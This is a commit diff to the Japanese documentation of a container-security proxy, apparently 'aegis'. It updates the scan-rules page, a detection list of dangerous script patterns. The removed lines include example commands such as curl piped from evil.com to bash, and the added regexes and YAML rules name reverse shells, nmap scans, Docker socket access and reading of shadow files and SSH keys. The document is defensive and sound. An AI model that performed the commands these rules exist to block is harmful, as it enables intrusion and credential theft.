

Before and after one commit to hdknr/aegis, an MkDocs documentation site: the page built from docs/security/scan-rules.md, in a window 1280 px wide and 1400 px high, scrolled down 2530 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
docs: update documentation for container security hardening
- worker.md: add seccomp, read_only, tmpfs, pids_limit, DNS restriction
- proxy.md: add rate limiting and response size limit to interception flow
- scan-rules.md: add 10 new attack patterns (reverse shells, nmap, etc.)
- configuration.md: add AEGIS_RATE_LIMIT_*, AEGIS_MAX_RESPONSE_SIZE env vars
- docker-compose.md: sync with actual docker-compose.yml
- policy.md: add container breakout threat category

Co-Authored-By: Claude Opus 4.6 (1M context) <noreply@anthropic.com>

````diff
--- a/docs/security/scan-rules.md
+++ b/docs/security/scan-rules.md
@@ -41,54 +41,98 @@ deb.nodesource.com
 
 レスポンスボディ内で検出する危険なスクリプトパターン。マッチした場合はリクエストがブロックされる。
 
-| Pattern | Description | Example |
+| Pattern | Severity | Description |
 |---|---|---|
-| `curl\s+.*\|\s*(ba)?sh` | curl 出力のシェルへのパイプ | `curl https://evil.com/x \| bash` |
-| `wget\s+.*\|\s*(ba)?sh` | wget 出力のシェルへのパイプ | `wget -O- url \| sh` |
-| `curl.*-o\s*/tmp/.*&&.*sh\s+/tmp/` | ダウンロード + 実行 | `curl -o /tmp/x url && sh /tmp/x` |
-| `base64\s+(-d\|--decode).*\|\s*(ba)?sh` | Base64 デコード + 実行 | `base64 -d <<< "..." \| sh` |
-| `eval\s+"\$\(curl` | eval によるリモートコード実行 | `eval "$(curl -s url)"` |
-| `python[23]?\s+-c\s+.*urllib` | Python ワンライナーでのダウンロード実行 | `python3 -c "import urllib..."` |
-| `perl\s+-e\s+.*socket` | Perl によるリバースシェル | `perl -e 'use Socket;...'` |
+| `curl\s+.*\|\s*(ba)?sh` | critical | curl 出力のシェルへのパイプ |
+| `wget\s+.*\|\s*(ba)?sh` | critical | wget 出力のシェルへのパイプ |
+| `curl.*-o\s*/tmp/.*&&.*sh\s+/tmp/` | high | ダウンロード + 実行 |
+| `base64\s+(-d\|--decode).*\|\s*(ba)?sh` | critical | Base64 デコード + 実行 |
+| `eval\s+"\$\(curl` | critical | eval によるリモートコード実行 |
+| `python[23]?\s+-c\s+.*urllib` | medium | Python ワンライナーでのダウンロード |
+| `perl\s+-e\s+.*socket` | high | Perl リバースシェル |
+| `(nc\|ncat\|netcat)\s+.*-e\s+/bin/(ba)?sh` | critical | Netcat リバースシェル |
+| `bash\s+-i\s+>&\s+/dev/tcp/` | critical | Bash /dev/tcp リバースシェル |
+| `python[23]?\s+-c\s+.*socket.*connect` | critical | Python socket リバースシェル |
+| `nmap\s+(-[a-zA-Z]+\s+)*[\d\.]+` | high | nmap ネットワークスキャン |
+| `/var/run/docker\.sock` | critical | Docker ソケットアクセス |
+| `echo\s+.*>\s*/proc/` | critical | /proc ファイルシステムへの書き込み |
+| `cat\s+/etc/(passwd\|shadow)` | high | システム認証情報ファイルの読み取り |
+| `crontab\s\|/etc/cron` | high | crontab 操作 |
+| `cat\s+.*\.ssh/(id_rsa\|id_ed25519\|authorized_keys)` | critical | SSH 鍵アクセス |
 
 **ルールファイル形式:** `rules.yml`
 
 ```yaml
 dangerous_patterns:
+  # Remote code execution
   - name: curl_pipe_bash
     pattern: 'curl\s+.*\|\s*(ba)?sh'
     severity: critical
     description: "Piping curl output directly to shell"
-
   - name: wget_pipe_sh
     pattern: 'wget\s+.*\|\s*(ba)?sh'
     severity: critical
     description: "Piping wget output directly to shell"
-
   - name: base64_decode_exec
     pattern: 'base64\s+(-d|--decode).*\|\s*(ba)?sh'
     severity: critical
     description: "Decoding base64 and executing in shell"
-
   - name: eval_curl
     pattern: 'eval\s+"\$\(curl'
     severity: critical
     description: "Eval with remote code download"
-
   - name: download_and_exec
     pattern: 'curl.*-o\s+/tmp/.*&&.*sh\s+/tmp/'
     severity: high
     description: "Download to temp and execute"
-
   - name: python_urllib_exec
     pattern: 'python[23]?\s+-c\s+.*urllib'
     severity: medium
     description: "Python one-liner with urllib"
 
+  # Reverse shells
   - name: perl_reverse_shell
     pattern: 'perl\s+-e\s+.*socket'
     severity: high
     description: "Perl reverse shell pattern"
+  - name: netcat_reverse_shell
+    pattern: '(nc|ncat|netcat)\s+.*-e\s+/bin/(ba)?sh'
+    severity: critical
+    description: "Netcat reverse shell"
+  - name: bash_reverse_shell
+    pattern: 'bash\s+-i\s+>&\s+/dev/tcp/'
+    severity: critical
+    description: "Bash /dev/tcp reverse shell"
+  - name: python_reverse_shell
+    pattern: 'python[23]?\s+-c\s+.*socket.*connect'
+    severity: critical
+    description: "Python reverse shell via socket"
+
+  # Reconnaissance & host attacks
+  - name: nmap_scan
+    pattern: 'nmap\s+(-[a-zA-Z]+\s+)*[\d\.]+'
+    severity: high
+    description: "Network scanning with nmap"
+  - name: docker_socket_access
+    pattern: '/var/run/docker\.sock'
+    severity: critical
+    description: "Docker socket access attempt"
+  - name: proc_sys_write
+    pattern: 'echo\s+.*>\s*/proc/'
+    severity: critical
+    description: "Writing to /proc filesystem"
+  - name: etc_passwd_shadow
+    pattern: 'cat\s+/etc/(passwd|shadow)'
+    severity: high
+    description: "Reading system credential files"
+  - name: crontab_injection
+    pattern: 'crontab\s|/etc/cron'
+    severity: high
+    description: "Crontab modification attempt"
+  - name: ssh_key_exfil
+    pattern: 'cat\s+.*\.ssh/(id_rsa|id_ed25519|authorized_keys)'
+    severity: critical
+    description: "SSH key access attempt"
 ```
 
 ### 3. C2 IP Blocklist
````
Also changed, not shown: docs/components/proxy.md (+8 -7 lines), docs/components/worker.md (+39 -3 lines), docs/integration/docker-compose.md (+29 -1 lines), docs/reference/configuration.md (+3 -0 lines), docs/security/policy.md (+11 -0 lines).
